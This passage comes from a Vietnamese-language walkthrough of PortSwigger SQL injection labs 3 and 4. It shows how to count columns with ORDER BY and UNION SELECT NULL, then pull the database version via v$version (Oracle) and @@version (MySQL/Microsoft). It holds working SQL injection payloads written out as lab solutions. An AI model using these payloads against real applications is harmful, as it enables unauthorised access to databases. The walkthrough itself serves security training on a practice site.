         'order by [num];--

C2: dùng với UNION select null => nếu đủ thông tin về số cột được select thì không báo lỗi còn lại thì báo lỗi

      'UNION select null,null...;--


+ sau khi check ' thì ra thông báo lỗi

![image](https://github.com/neo-M3tinez/Portswigger/assets/174318737/684b8a40-a2b9-4e50-9abf-feefb6549242)

+ check cột thì xác định là có 2 cột = 'order by 3 -- => lỗi

![image](https://github.com/neo-M3tinez/Portswigger/assets/174318737/60a64355-0cc1-49bd-ad9d-440b418ca141)

+ step 2: Exploit

ta sẽ dùng payload :

      'union select null, banner from v$version --

![image](https://github.com/neo-M3tinez/Portswigger/assets/174318737/3039208e-5ad0-4ced-81ba-a5644fbaf5d6)

+ provide số cột hợp lệ là null , banner (null có thể là bất cứ char hay number gì )

+ from table v$version

![image](https://github.com/neo-M3tinez/Portswigger/assets/174318737/bb3a6255-a397-4eaf-a972-1422cf29d343)

=> solve lab 3


# Lab 4: SQL injection attack, querying the database type and version on MySQL and Microsoft

>  This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.To solve the lab, display the database version string. 

=> goal: display database version 

+ step 1:Recon

  - sử dụng query ' như lab trên và check hệ thống error
 
  - checking số cột => 'order by 2 -- - => bypass filter bằng khoảng trắng nhưng vẫn hợp lệ

![image](https://github.com/neo-M3tinez/Portswigger/assets/174318737/70d9f358-6726-4abe-aa14-d21d1c3d6cb3)

=> chỉ có 2 cột 

  - dùng brup suite thì check qua comment # -> dùng cho mysql dbms

+ step 2: Exploit

- payload:

      SELECT @@version => 'union select null , @@version -- -
